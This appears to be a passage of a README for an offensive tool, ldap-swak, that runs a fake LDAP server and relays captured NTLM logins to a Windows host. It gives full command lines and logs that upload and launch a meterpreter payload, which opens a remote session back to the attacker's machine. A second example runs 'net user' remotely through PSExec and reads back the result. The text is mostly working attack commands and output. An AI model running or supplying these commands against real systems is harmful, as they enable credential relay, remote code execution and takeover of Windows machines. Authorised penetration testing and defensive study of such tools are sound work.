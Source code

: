 Three basic operations on the target server are implemented:
- reading files
- executing system commands and powershell (PSExec/SMBExec)
- writing files

The order of operations is a convenient write/execute/read.


For example, upload and launch a meterpreter instance:
```
java -jar target/ldap-swak-0.0.5-SNAPSHOT-all.jar fake -p 1389 --ntlm-relay 192.168.56.101 --relay-write-file /tmp/test.exe --relay-write-to 'ADMIN$/Temp/foo.exe' --psexec-cmd "C:\\Windows\\Temp\\foo.exe"
10:36:53.789 INFO FakeServer - Starting StartTLS listener on *:1389
10:36:56.278 INFO PassTheHashNTLMSASLBindHandler - Have NTLM login administrator@DESKTOP-L96LL3H
10:36:56.325 INFO PassTheHashRunner - Command line %COMSPEC% /b /c start /b /min C:\Windows\Temp\foo.exe
10:36:56.333 INFO PassTheHashRunner - Service already exists
10:36:56.337 INFO PassTheHashRunner - Recreated service
10:36:56.355 INFO PassTheHashRunner - Service start timeout, expected: this is not an actual service binary


[*] Meterpreter session 4 opened (192.168.56.1:8443 -> 192.168.56.101:49696) at 2019-02-19 10:36:56 +0100
```

Or, execute a system command and get it's output:
```
java -jar target/ldap-swak-0.0.5-SNAPSHOT-all.jar fake -p 1389 --ntlm-relay 192.168.56.101  --psexec-cmd "net user" --psexec-cmd-log C:\\Windows\\Temp\\test.log --relay-read-from 'ADMIN$/Temp/test.log'
10:39:09.154 INFO FakeServer - Starting StartTLS listener on *:1389
10:39:12.564 INFO PassTheHashNTLMSASLBindHandler - Have NTLM login administrator@DESKTOP-L96LL3H
10:39:12.600 INFO PassTheHashRunner - Command line %COMSPEC% /b /c start /b /min C:\Windows\Temp\launch-1550569151302.cmd
10:39:12.610 INFO PassTheHashRunner - Service already exists
10:39:12.614 INFO PassTheHashRunner - Recreated service
10:39:12.632 INFO PassTheHashRunner - Service start timeout, expected: this is not an actual service binary

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
mbechler                 WDAGUtilityAccount       
The command completed with one or more errors.
```
 
